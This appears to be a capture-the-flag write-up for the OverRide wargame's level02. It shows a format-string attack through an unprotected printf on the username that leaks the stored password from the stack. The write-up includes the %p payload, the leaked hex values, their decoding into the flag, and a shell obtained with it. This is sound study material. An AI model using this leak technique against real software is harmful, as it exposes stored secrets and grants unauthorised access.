 After analyzing the source code, we can see that it executes /bin/sh only if the password matches the flag.

We also noticed an unprotected printf function used to display the username, which we can exploit to get File content

First, let's test this:

``` Shell
level02@OverRide:~$ ./level02 %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: AAAA%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
--[ Password: *****************************************
AAAA0x7fffffffe0e0 (nil) 0x20 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe2d8 0x61f7ff9a08 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x100702520 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil) 0x2520702541414141 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 does not have access!
level02@OverRide:~$ ./level02 %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p

We can see the pointers preceding the pointer to our buffer, which is situated between two (nil) values. This could indicate the presence of string content. Additionally, we notice that these pointers have a format that is very different from the other pointers. Therefore, we conclude that this must be the content of password.

0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d


Converting these to ASCII gives us: unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9M.

``` Shell
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9M
--[ Password: unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9M
*****************************************
unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9M does not have access!
```

Next, we reverse the pointer order before converting to ASCII:

0x48336750664b394d 0x354a35686e475873 0x377a7143574e6758 0x45414a3561733951 0x756e505234376848

H3gPfK9M5J5hnGXs7zqCWNgXEAJ5as9QunPR47hH

This gives us: `H3gPfK9M5J5hnGXs7zqCWNgXEAJ5as9QunPR47hH`.

Reversing this string, we get: `Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`.

Let's test this:

``` Shell
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
--[ Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
*****************************************
Greetings, Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H!
$ 
```
